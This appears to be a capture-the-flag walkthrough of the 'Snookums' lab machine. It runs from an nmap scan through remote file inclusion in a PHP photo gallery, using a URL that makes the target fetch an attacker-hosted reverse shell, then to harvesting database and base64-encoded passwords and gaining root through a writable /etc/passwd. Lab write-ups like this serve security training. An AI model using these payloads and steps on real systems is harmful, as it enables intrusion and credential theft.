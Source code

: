 # Snookums

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.197.58 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-04 22:49 +08
Warning: 192.168.197.58 giving up on port because retransmission cap hit (10).
Nmap scan report for 192.168.197.58
Host is up (0.17s latency).
Not shown: 65484 filtered tcp ports (no-response), 43 closed tcp ports (conn-refused)
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3306/tcp  open  mysql
33060/tcp open  mysqlx
```

Lots of ports open.

### PHP Gallery --> RFI + RCE

Port 80 was running a Simple PHP Photo Gallery instance:

<figure><img src="../../../.gitbook/assets/image (1533).png" alt=""><figcaption></figcaption></figure>

This thing might be vulnerable to an RFI based on `searchsploit`:

```
$ searchsploit SimplePHP
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
FREEsimplePHPGuestbook - 'Guestbook.php' Remote Code Execu | php/webapps/7079.txt
SimplePHPGal 0.7 - Remote File Inclusion                   | php/webapps/48424.txt
```

The PoC is quite simple to test:

```
### Poc  :

[+]   site.com/image.php?img= [ PAYLOAD ]
```

And it does work since I can make the website send requests to my HTTP server:

<figure><img src="../../../.gitbook/assets/image (3536).png" alt=""><figcaption></figcaption></figure>

To exploit this, we can just host a PHP reverse shell from PentestMonkey and make the website call it by visiting [http://192.168.197.58/image.php?img=http://192.168.45.177/rev.php](http://192.168.197.58/image.php?img=http://192.168.45.177/rev.php).

<figure><img src="../../../.gitbook/assets/image (4007).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### SQL Creds --> Michael Shell

Within the `/var/www/html` file, there's a `db.php` folder that contains MySQL credentials:

```
bash-4.2$ cat db.php 
<?php
define('DBHOST', '127.0.0.1');
define('DBUSER', 'root');
define('DBPASS', 'MalapropDoffUtilize1337');
define('DBNAME', 'SimplePHPGal');
?>
```

Using this, we can login using `mysql`:

```
bash-4.2$ mysql -u root -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 10
Server version: 8.0.20 MySQL Community Server - GPL

Copyright (c) 2000, 2020, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
```

Within the MySQL database there were some credentials:

```
mysql> show tables;
+------------------------+
| Tables_in_SimplePHPGal |
+------------------------+
| users                  |
+------------------------+
1 row in set (0.00 sec)

mysql> select * from users
    -> ;
+----------+----------------------------------------------+
| username | password                                     |
+----------+----------------------------------------------+
| josh     | VFc5aWFXeHBlbVZJYVhOelUyVmxaSFJwYldVM05EYz0= |
| michael  | U0c5amExTjVaRzVsZVVObGNuUnBabmt4TWpNPQ==     |
| serena   | VDNabGNtRnNiRU55WlhOMFRHVmhiakF3TUE9PQ==     |
+----------+----------------------------------------------+
```

These are just  `base64` encoded strings, and we can easily find the cleartext passwords. `michael` is the only user within `/home`, so we can decode his password:

```
$ echo 'U0c5amExTjVaRzVsZVVObGNuUnBabmt4TWpNPQ==' | base64 -d | base64 -d
HockSydneyCertify123
```

Then, just use `su`:

<figure><img src="../../../.gitbook/assets/image (2884).png" alt=""><figcaption></figcaption></figure>

Grab the user flag.

### Writeable /etc/passwd --> Root

`michael` owns `/etc/passwd`. This is findable by running `linpeas.sh`:

```
[michael@snookums ~]$ ls -la /etc/passwd
-rw-r--r--. 1 michael root 1162 Jun 22  2021 /etc/passwd
```

Using this, we can easily create a new root user.&#x20;

<figure><img src="../../../.gitbook/assets/image (3978).png" alt=""><figcaption></figcaption></figure>

Rooted!
